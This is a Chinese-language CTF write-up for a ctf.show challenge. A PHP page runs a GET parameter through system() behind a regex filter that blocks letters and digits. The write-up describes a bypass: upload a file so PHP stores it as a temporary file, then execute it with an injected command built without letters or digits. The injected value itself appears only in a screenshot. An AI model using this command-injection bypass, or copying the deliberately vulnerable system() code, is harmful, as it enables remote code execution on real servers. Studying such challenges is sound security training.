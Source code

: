 ```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

很有趣的一道题，学到里奥新姿势，P神文章奉上<a href='https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html' target="_blank">无字母数字webshell之提高篇</a>

该题主要就是用P神文章里讲的方法来做的

首先构造一个post上传文件的数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST文件上传</title>
</head>
<body>
<form action="http://17d01aae-51d9-48fe-abfb-d9ba10037d72.chall.ctf.show/" method="post" enctype="multipart/form-data">
    <!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

上传一个php文件，文件内容

```
#!/bin/sh
ls
```

注：shell程序必须以"#!/bin/sh"开始，#! /bin/sh 是指此脚本使用/bin/sh来解释执行，#!是特殊的表示符，其后面跟的是解释此脚本的shell的路径

![](http://img.npfs06.top/20210225161339.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

上传抓包

抓包之后添加参数c如下，多发包几次（因为并不一定生成的临时文件的最后一个字母就是大写字母），可以看到执行了ls命令

![](http://img.npfs06.top/20210225161351.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)
